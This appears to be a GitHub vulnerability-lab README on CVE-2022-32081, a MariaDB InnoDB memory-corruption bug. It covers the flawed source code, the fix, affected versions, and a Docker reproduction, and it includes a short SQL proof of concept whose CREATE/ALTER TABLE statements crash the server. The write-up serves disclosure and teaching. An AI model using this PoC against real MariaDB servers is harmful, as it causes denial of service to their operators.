



# CVE-2022-32081 CWE-416 MariaDB DoS

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **CWE-416 (Use After Free):** refers to a vulnerability in software that uses already freed memory regions. When the program dynamically allocated memory is released, if the pointer to that memory is not set to invalid (such as NULL), subsequent code may still access the pointer incorrectly. At this point, the memory may have been reallocated for other uses, leading to unpredictable behaviors such as data corruption, program crashes, or code execution. This vulnerability usually stems from improper memory management and is a serious security issue, making it easy for attackers to exploit to undermine program stability and security.

## Vulnerability Mechanism
MariaDB's `prepare_inplace_add_virtual` function mistakenly uses server layer `virtual_fields` statistics when handling instant ADD/DROP generated columns, which do not distinguish between `STORED` and `VIRTUAL` columns, This causes the estimated number of columns during memory allocation to be too small or zero, yet the real virtual columns are still written. The result was the trigger for UAF.

## Vulnerability Location
Analysis of MariaDB 10.6.3 source code:

In the storage\innobase\handler\handler0alter.cc file, line 4921 `prepare_inplace_add_virtual` function

In line 4932, the number of new virtual columns needs to be added. In theory, `(new total - old total)` should equal the net increase, but since `ALTER` may contain both `ADD` and `DROP`, the logic becomes complicated. The designer believes that `(new total - old total + number dropped)` can calculate the amount of `ADD` needed this time.

The `table->s->virtual_fields` counter in the MariaDB server layer does not distinguish between `STORED` (stored) and `VIRTUAL` (virtual) generated columns**; it counts both. But for the `INSTANT ALTER` operations of the InnoDB storage engine, it only cares about the true `VIRTUAL` columns, since these columns don't take up physical storage space and can be quickly added by modifying metadata. `STORED` Generate columns requires rebuilding the table, which is not suitable for this scenario. Therefore, this calculation may be **0 or negative**, but it is subsequently used directly for memory allocation.

An error occurs when `ctx->num_to_add_vcol` is misestimated to 0 or less than the actual number of virtual columns added, resulting in an error when writing at line 4995.

```cpp
// handler0alter.cc Document, line 4921
static bool prepare_inplace_add_virtual(
	Alter_inplace_info*	ha_alter_info,
	const TABLE*		altered_table,
	const TABLE*		table)
{
	ha_innobase_inplace_ctx*	ctx;
	uint16_t i = 0, j = 0;

	ctx = static_cast<ha_innobase_inplace_ctx*>
		(ha_alter_info->handler_ctx);
// 4932 rows ***** calculate the number of new virtual columns that need to be added
	ctx->num_to_add_vcol = altered_table->s->virtual_fields
		+ ctx->num_to_drop_vcol - table->s->virtual_fields;
    
	// If ctx->num_to_add_vcol is 0, an array of zero length will be allocated here
	ctx->add_vcol = static_cast<dict_v_col_t*>(
         mem_heap_zalloc(ctx->heap, ctx->num_to_add_vcol
                 * sizeof *ctx->add_vcol));
    ctx->add_vcol_name = static_cast<const char**>(
         mem_heap_alloc(ctx->heap, ctx->num_to_add_vcol
                * sizeof *ctx->add_vcol_name));

	for (const Create_field& new_field :
	     ha_alter_info->alter_info->create_list) {
		const Field* field = altered_table->field[i++];

		// ...
        
// 4995 rows ***** write count
		new (&ctx->add_vcol[j]) dict_v_col_t();
		
        // ...
	}

	return(false);
}
```

## Remediation

Upgrade to MariaDB 10.4.26, 10.5.17, 10.6.9, 10.7.5, 10.8.4, 10.9.2, or later containing commit `9a897335eb4387980aed7698b832a893dbaa3d81`. The patched InnoDB ALTER path allocates the virtual-column arrays from a conservative upper bound, resets the write index, and records the actual number added only after enumeration, preventing under-allocation when ADD and DROP occur together.

Until upgraded, do not allow untrusted users to combine virtual-column additions and removals in one `ALTER TABLE`; perform such changes in separate, reviewed maintenance operations.
A local variable `j` was created, changed to a conservative estimate, and did not subtract the old column count

```cpp
static bool prepare_inplace_add_virtual(...){	
	// ...	
    // Remove the original formula
	ulint j = altered_table->s->virtual_fields + ctx->num_to_drop_vcol;

    // Memory allocation based on j
	ctx->add_vcol = static_cast<dict_v_col_t*>(
		 mem_heap_zalloc(ctx->heap, j * sizeof *ctx->add_vcol));

	ctx->add_vcol_name = static_cast<const char**>(
		 mem_heap_alloc(ctx->heap, j * sizeof *ctx->add_vcol_name));

    // Initialize j to prevent the previous residual
	j = 0;

	// ...

    // Write into the count
	ctx->num_to_add_vcol = j;
	return(false);
}
```

## Affected Versions
**Affected version:** MariaDB:

- 10.4.0 to 10.4.25
- 10.5.0 to 10.5.16
- 10.6.0 to 10.6.8
- 10.7.0 to 10.7.4
- 10.8.0 to 10.8.3
- 10.9.0 to 10.9.1

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and PoC file CVE-2022-32081-PoC.sql already exists in the container.

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-32081-PoC.sql, and you'll see that an error has been encountered and the container will automatically close

```sql
source CVE-2022-32081-PoC.sql
```



4. Review the MariaDB crash log, and you can see that UAF occurred causing the crash, and the problem is in the `prepare_inplace_add_virtual` method, corresponding to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
-- Create a table with STORED generated columns
CREATE TABLE t1 (
  i INT AS ('x') STORED,
  j INT
);

-- Replace with the VIRTUAL column of the same name
ALTER TABLE t1
  ADD COLUMN i INT GENERATED ALWAYS AS ('a'),
  DROP COLUMN i;
```

`CREATE` statement creates a table `t1` containing a **`STORED`** column `i`. `ALTER` statement first adds a new `VIRTUAL` column (also called `i`), then deletes the old `STORED` column `i`. The logic of the formula might work well when simply "adding" or "removing," but it completely ignores the complex scenario of "**replace**," especially **replacing `STORED` columns with `VIRTUAL` columns**. This conflict led to the logical collapse of the formula, ultimately resulting in a fatal error: 0.

## References
[NVD - CVE-2022-32081](https://nvd.nist.gov/vuln/detail/CVE-2022-32081)

[[MDEV-26420\] Buffer overflow on instant ADD/DROP of generated column - Jira](https://jira.mariadb.org/browse/MDEV-26420)

[MDEV-26420 Buffer overflow on instant ADD/DROP of generated column · MariaDB/server@9a89733](https://github.com/MariaDB/server/commit/9a897335eb4387980aed7698b832a893dbaa3d81)
